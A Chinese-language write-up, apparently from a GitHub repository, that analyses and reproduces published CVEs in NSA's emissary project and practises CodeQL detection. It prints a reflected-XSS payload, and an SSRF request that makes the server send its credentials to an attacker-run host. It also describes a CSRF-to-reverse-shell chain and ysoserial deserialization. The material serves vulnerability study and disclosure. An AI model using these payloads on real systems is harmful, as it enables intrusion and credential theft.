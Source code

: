 # NSA emissary多个漏洞分析复现和CodeQL实践

## 0x00 前言

先是Sonarsource的安全研究员在审计NSA的开源项目emissary v5.9.0版本的过程中发现了若干漏洞，其中包括：
- Code Injection (CVE-2021-32096)
- Arbitrary File Upload (CVE-2021-32094)
- Arbitrary File Disclosure (CVE-2021-32093)
- Arbitrary File Delete (CVE-2021-32095)
- Reflected cross-site scripting (CVE-2021-32092)

后来在浏览Github安全实验室的博客时，看到@pwntester在Sonarsource安全研究员的基础上，使用CodeQL编写规则，在emissary项目中除了检测出以上漏洞外，还发现了新的漏洞：
- Unsafe deserialization (CVE-2021-32634)
- Server-side request forgery (CVE-2021-32639)

最近笔者除了在做漏洞分析外，也在学习CodeQL的使用，刚好可以用emissary项目来练手。

## 0x01 漏洞分析和复现

### Reflected cross-site scripting (CVE-2021-32092)

这个XSS漏洞发生在一个文档上传功能里，上传文档后通过`/emissary/Document.action/{uuid}`接口来获取文档的信息，`uuid`参数对应的不同的文档。当`uuid`不存在时，返回一个`XML`格式的内容，提示`uuid`不存在, 但传入的`uuid`参数未经任何的安全过滤就原样显示在回显文本中，可导致反射型XSS。关键代码如下图：

<img src="pic/emissary_1.png">

由于返回的文本是XML格式，可在[XSS-Cheat-Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)中找到在XML文件中执行的PoC，如下：

```html
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

<img src="pic/emissary_2.png">


### Arbitrary File Disclosure (CVE-2021-32093) 

漏洞发生在接口`/emissary/ConfigFile.action`，该接口没有对传入的参数`ConfigItem`做任何安全校验和过滤，导致可读取服务器上任意文件。关键代码如下：

<img src="pic/emissary_3.png">

<img src="pic/emissary_4.png">

示例如下，读取系统文件，及读取emissary的配置文件获取用户名/密码：

<img src="pic/emissary_5.png">

<img src="pic/emissary_6.png">


### Code Injection (CVE-2021-32096)

该漏洞出现在接口`/emissary/Console.action`，该接口允许用户执行Ruby代码。关键代码如下：

<img src="pic/emissary_8.png">

<img src="pic/emissary_9.png">

<img src="pic/emissary_10.png">

这个是emissary提供的功能。另外，该接口需要登录后才能调用。但由于emissary的用户认证使用的是HTTP摘要认证(HTTP Digest authentication)(参考[3])，在浏览器端登录后的HTTP请求，会自动带上请求头`Authorization`，如下：

```
GET / HTTP/1.1
Host: 192.168.3.56:8001
Authorization: Digest username="emissary", realm="EmissaryRealm", nonce="6GNGeEbPjv0BCgLtxLiqHifkF1eNRMM3", uri="/", algorithm=MD5, response="daa5a9a9144b7665f5ff1f5585d3432f", qop=auth, nc=00000001, cnonce="9f3c3b06c42dba3b"
```

这种认证方式可以被CSRF攻击。所以可构造页面让登录用户去访问，从而获取反弹shell，如下图演示：

<img src="pic/emissary_7.gif">


### Unsafe deserialization (CVE-2021-32634)

该漏洞发生在接口`/emissary/WorkSpaceClientEnqueue.action`，代码如下图：

<img src="pic/emissary_11.png">

可以看到参数`WorkSpaceAdapter.WORK_BUNDLE_OBJ`在第52、53行被读取并反序列化。而且emissary依赖了`commons-collections-3.2.1`，所以可以使用`ysoserial`生成`CC`链的payload进行反序列化攻击。由于这个接口也是登录后才可调用，因此可配合CSRF进行利用。

### Server-side request forgery (CVE-2021-32639)

这里有两个接口存在SSRF漏洞，分别是`/emissary/RegisterPeer.action`和`/emissary/AddChildDirectory.action`。

这两处SSRF漏洞，使用CodeQL的默认规则集可以检测出来，如图：

<img src="pic/emissary_12.png">

<img src="pic/emissary_13.png">

#### 接口 /RegisterPeer.action

漏洞输入点在`directoryName`参数。

可构造payload如下：
```
POST /emissary/RegisterPeer.action HTTP/1.1
Host: 127.0.0.1:8001
Content-Type: application/x-www-form-urlencoded

directoryName=foo.bar.baz.http://172.20.10.3:5000/&targetDir=http://localhost:8001/DirectoryPlace
```

SSRF一般用于未授权访问、扫描或攻击目标的内部网络。但是这里@pwntester根据emissary的实际情况给出了另一种攻击场景。通过分析代码发现，emissary使用Apache的HttpClient库来向内部网络发起http请求，它从自身配置中获取身份凭证，并将身份凭证设置到名为`CRED_PROV`的凭证提供者对象中，然后带着这个身份凭证向目标服务发起Http请求。在这个过程中，并没有配置emissary客户端使用哪种身份认证机制(`HTTP Basic Authentication`或`HTTP Digest Authentication`)，所以判断：使用哪种身份认证机制应该是根据HTTP服务器的响应来决定的。具体代码如下：

<img src="pic/emissary_15.png">

因此，我们就可以架设一个HTTP基础认证的服务器，然后通过emissary的SSRF漏洞，让emissary客户端使用HTTP基础认证方式去访问我们的服务器，这样，我们在恶意服务器端就能获取用户身份凭证的明文数据(Base64编码)。

经实践，确实是这样。<br>
1、首先编写并启动我们的HTTP Basic Authentication服务器；<br>
2、使用上面的payload，对emissary执行SSRF攻击，如下图，会带着身份凭证的明文数据(Base64编码)向我们的目标服务器发起请求: <br>

<img src="pic/emissary_14.png">

因此emissary项目的维护者在修复SSRF漏洞的同时，还指定了emissary客户端使用HTTP摘要认证机制。如下图，详见：[修复代码](https://github.com/NationalSecurityAgency/emissary/commit/79ca5608c4f77d9a5c8a4996e204377c158a6976#diff-c988041bf4d686dbcce23218e54188558f0116513ff30d161d958482a7c5f1c4)

<img src="pic/emissary_16.png">

#### 接口 /AddChildDirectory.action

`/AddChildDirectory.action`接口同理，就不展开说了。



## Reference

[1] https://blog.sonarsource.com/code-vulnerabilities-in-nsa-application-revealed <br>
[2] https://securitylab.github.com/research/NSA-emissary/ <br>
[3] https://blog.csdn.net/andrewpj/article/details/45727853